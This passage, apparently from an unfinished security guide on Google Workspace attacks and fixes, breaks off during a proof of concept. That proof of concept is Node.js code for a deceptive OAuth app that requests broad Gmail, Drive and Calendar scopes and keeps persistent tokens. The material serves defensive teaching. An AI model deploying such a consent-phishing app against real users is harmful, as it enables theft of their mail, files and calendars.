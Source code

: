 !!! warning "Under Construction"
    This page is under construction. Please check back later for comprehensive guidance

# Google Workspace Exploitation Examples and Fixes

This document provides security professionals with practical examples of Google Workspace security vulnerabilities, proof-of-concept exploitation techniques, and corresponding remediation strategies. This knowledge enables effective threat hunting, vulnerability assessment, and security hardening.

> **IMPORTANT**: These techniques are provided exclusively for defensive purposes. All examples should only be used in authorized testing environments with proper permissions. Never attempt these techniques against production systems without explicit written authorization.

## 1. OAuth Token Manipulation Attacks

### Vulnerability: Excessive OAuth Scope Authorization

**Description:**  
Users are often unaware of the permissions they grant to third-party applications, frequently authorizing excessive scopes that can be exploited.

#### Proof-of-Concept Exploitation:

**1. Creating a Deceptive OAuth Application:**

```javascript
// Simple Node.js example of a malicious OAuth app
const express = require('express');
const { google } = require('googleapis');
const app = express();

// OAuth configuration
const oauth2Client = new google.auth.OAuth2(
  'YOUR_CLIENT_ID',
  'YOUR_CLIENT_SECRET',
  'http://localhost:3000/auth/google/callback'
);

// Request excessive scopes
const scopes = [
  'https://www.googleapis.com/auth/gmail.readonly',
  'https://www.googleapis.com/auth/drive',
  'https://www.googleapis.com/auth/calendar'
];

app.get('/auth', (req, res) => {
  // Create deceptive authorization URL
  const authUrl = oauth2Client.generateAuthUrl({
    access_type: 'offline',
    scope: scopes,
    prompt: 'consent'
  });
  res.redirect(authUrl);
});

app.get('/auth/google/callback', async (req, res) => {
  // Exchange code for tokens
  const { tokens } = await oauth2Client.getToken(req.query.code);
  oauth2Client.setCredentials(tokens);
  
  // At this point, the application has persistent access to user data
  // Tokens could be stored for later use
  
  res.send('App connected successfully');
```